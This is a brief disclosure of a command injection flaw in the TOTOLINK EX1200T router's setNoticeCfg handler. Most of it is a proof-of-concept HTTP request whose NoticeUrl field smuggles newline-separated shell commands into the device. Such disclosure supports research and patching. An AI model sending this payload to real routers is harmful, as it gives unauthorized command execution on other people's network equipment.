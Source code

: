 # TOTOLINK EX1200T RCE

## Remote Command Injection Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a remote command injection in the function `setNoticeCfg` of the file `lib/cste_modules/system.so` , we can control the`NoticeUrl` to attack.

![image-20211019163049490](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019163049490.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi?action=1 HTTP/1.1
Host: 192.168.0.1
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 68

{"topicurl":"setNoticeCfg",
"NoticeEnabled":"1",
"NoticeUrl":"1.1.1.1\nps>/web_cste/test1\necho",
"BtnName":"Click here to continue",
"IpFrom":"1.1.1.1",
"IpTo":"1.1.1.1",
"NoticeTimeoutVal":"120"
}
```

![image-20211019162919271](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211019162919271.png)
